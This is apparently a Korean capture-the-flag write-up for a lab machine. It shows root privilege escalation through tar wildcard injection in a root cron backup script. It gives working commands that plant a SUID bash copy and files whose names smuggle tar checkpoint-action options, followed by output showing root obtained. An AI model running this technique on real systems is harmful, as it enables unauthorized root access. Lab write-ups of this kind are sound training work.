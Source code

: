 
`root` 권한으로 실행되는 `backup.sh` 스크립트가 `tar` 명령어와 함께 와일드카드(`*`)를 안전하지 않은 방식으로 사용하기 때문입니다. 셸(Shell)은 `*`를 현재 디렉토리의 모든 파일 및 디렉토리 이름으로 확장(expand)하여 `tar` 명령어에 인수로 전달합니다. 만약 파일 이름이 `-` 또는 `--`로 시작한다면, `tar` 명령어는 이를 파일 이름이 아닌 **옵션**으로 인식하게 됩니다.

`www-data` 사용자는 `/var/www/html` 디렉토리에 파일을 생성할 권한이 있으므로, 이 점을 악용하여 악의적인 파일 이름을 생성하고 `root` 권한으로 원하는 명령을 실행할 수 있습니다.

---

#### 1. 공격 페이로드 스크립트 생성

먼저, `root` 권한으로 실행할 명령이 담긴 셸 스크립트를 `/var/www/html` 디렉토리에 생성합니다. 여기서는 간단하게 `www-data` 사용자에게 `root` 권한을 부여하기 위해 SUID를 설정한 `bash` 셸 복사본을 만드는 예시를 사용하겠습니다.

```bash title="Target"
cd /var/www/html
echo 'cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash' > exploit.sh
chmod +x exploit.sh
```

- `exploit.sh`: `/bin/bash`를 `/tmp/rootbash`로 복사하고, SUID 비트를 설정하여 어떤 사용자든 `root` 권한으로 실행할 수 있게 만드는 스크립트입니다.


#### 2. `tar` 옵션으로 인식될 파일 생성

이제 `tar` 명령어가 옵션으로 인식하도록 특수하게 조작된 이름의 파일들을 생성합니다.

Bash

```
touch -- "--checkpoint-action=exec=sh exploit.sh"
touch -- "--checkpoint=1"
```

- `--checkpoint=1`: `tar`가 1개의 파일을 처리할 때마다 체크포인트에 도달했음을 알립니다.

- `--checkpoint-action=exec=./exploit.sh`: 체크포인트에 도달했을 때 실행할 동작을 지정합니다. 여기서는 우리가 만든 `exploit.sh` 스크립트를 실행하도록 설정합니다.

- `sh` `파일 이름` 사이에 공백이 있어야 하며, 그렇지 않으면 `tar` 명령을 잘못 읽고(예: `shexploit.sh`) 아무 일도 일어나지 않습니다.

`--`를 앞에 붙이는 이유는 `touch` 명령어가 `-`로 시작하는 파일명을 옵션으로 착각하지 않고 파일 이름으로 올바르게 생성하도록 하기 위함입니다.

#### 3. 대기 및 권한 상승 확인

이제 모든 준비가 끝났습니다. `cron`에 의해 `backup.sh` 스크립트가 `root` 권한으로 실행될 때까지 기다립니다.

스크립트가 실행되면 다음과 같은 과정이 발생합니다.

1. `cd /var/www/html` 실행

2. `tar cf /home/milesdyson/backups/backup.tgz *` 실행

3. `*`가 확장되어 `tar cf ... --checkpoint=1 --checkpoint-action=exec=./exploit.sh exploit.sh` 와 같은 형태로 명령어가 구성됩니다.

4. `tar`는 이 파일들을 백업하려다 `--checkpoint` 옵션을 만나고, 첫 번째 파일을 처리한 후 `--checkpoint-action`에 지정된 `sh exploit.sh`를 **root 권한으로 실행**합니다.


`cron` 작업이 실행된 후, `/tmp` 디렉토리를 확인하고 생성된 SUID 셸을 이용하여 `root` 권한을 획득합니다.

Bash

```
www-data@skynet:/var/www/html$ ls -l /tmp/rootbash
-rwsr-sr-x 1 root root 1113504 Aug 31 08:00 /tmp/rootbash  # SUID 비트(s)가 설정됨
www-data@skynet:/var/www/html$ /tmp/rootbash -p
rootbash-5.0# id
uid=1002(www-data) gid=1002(www-data) euid=0(root) groups=1002(www-data)
rootbash-5.0# whoami
root
```

- `-p` 옵션: 유효 UID(euid)가 실제 UID(uid)와 다를 때, 권한을 그대로 유지한 채 셸을 실행하기 위해 사용합니다.
